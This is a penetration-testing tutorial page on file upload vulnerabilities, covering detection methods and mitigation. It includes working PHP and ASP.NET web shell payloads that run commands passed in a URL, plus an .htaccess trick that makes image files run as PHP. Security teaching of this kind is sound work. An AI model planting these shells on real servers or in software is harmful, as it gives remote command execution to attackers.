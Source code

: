 ```yaml
---
description: >-
  Upload vulnerabilities occur when an application does not properly validate or
  sanitise user-uploaded files
---
```


# Uploads

## What is an Upload Vulnerability?

Upload vulnerabilities occur when an application does not properly validate or sanitize user-uploaded files. This can lead to unauthorized code execution, file inclusion, or other security breaches. Attackers may exploit these vulnerabilities to upload malicious files, such as web shells or configuration files, that can compromise the server or application.

### Example Tests for Upload Vulnerabilities

When performing a penetration test, you can use various payloads to test for upload vulnerabilities. Below are some example tests and methodologies to identify such vulnerabilities.

### **Example Payloads and Techniques**

1. **Uploading a Web Shell**
   *   **PHP Web Shell**: Upload a simple PHP file with the following content:

       ```php
       <?php system($_GET['cmd']); ?>
       ```
   *   **ASP Web Shell**: Upload an ASP file with the following content:

       {% code overflow="wrap" %}
       ```aspnet
       <% @Page Language="C#" %>
       <script runat="server">
       void Page_Load(object sender, EventArgs e) {
           if (Request.QueryString["cmd"] != null) {
               System.Diagnostics.Process.Start("cmd.exe", "/c " + Request.QueryString["cmd"]);
           }
       }
       </script>
       ```
       {% endcode %}
2.  **Uploading .htaccess File**

    *   To change the behaviour of the web server, you can upload an `.htaccess` file:

        ```bash
        AddType application/x-httpd-php .jpg
        ```

    This allows you to upload a PHP file disguised with a `.jpg` extension and have it executed as PHP.
3. **Bypassing File Type Restrictions**
   * **Polyglot Files**: Create a file that can be interpreted as both an image and a script. For example, an image with PHP code hidden in comments.
   * **MIME Type Bypass**: Change the MIME type of the file to bypass content-type checks.
4. **Using Alternate Extensions**
   * Upload files with different extensions that might still be interpreted as scripts by the server, such as `.phtml`, `.phar`, or `.shtml`.
5. **Configuration Files**
   * **Apache Configuration (.htaccess)**: Upload an `.htaccess` file to enable execution of other uploaded files.
   * **Tomcat Configuration**: Modify the `web.xml` file to include malicious servlet mappings.

## Testing Methodology

1. **Identify Upload Points**:
   * Locate file upload functionalities in the application, such as profile picture uploads, document uploads, etc.
2. **Attempt File Uploads**:
   * Use various payloads to attempt uploading different file types and observe the server's response.
   * Monitor the server's directory structure to see where files are stored and if they are accessible.
3. **Analyze Responses**:
   * Check if the uploaded files are executable by accessing them directly via a web browser.
   * Use intercepting proxies like Burp Suite or OWASP ZAP to manipulate file uploads and bypass client-side restrictions.
4. **Monitor Server Behavior**:
   * Observe any changes in server behaviour, error messages, or execution of uploaded files.

### References

* [PayloadsAllTheThings - Upload Insecure Files](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md)
* [PayloadsAllTheThings - Jetty RCE](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Jetty%20RCE/JettyShell.xml)
* [PayloadsAllTheThings - Extension ASP](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20ASP/shell.aspx)

### Example bypass upload restrictions.&#x20;

<figure><img src="../../.gitbook/assets/1669794207400.jfif" alt=""><figcaption></figcaption></figure>

#### Conclusion

Upload vulnerabilities can lead to severe security breaches if not properly mitigated. Always ensure user inputs are sanitised and validated before processing. Implement proper file type checks, size limits, and use safe directories for storing uploaded files. Regular security testing and updates to the application code can help prevent such vulnerabilities.

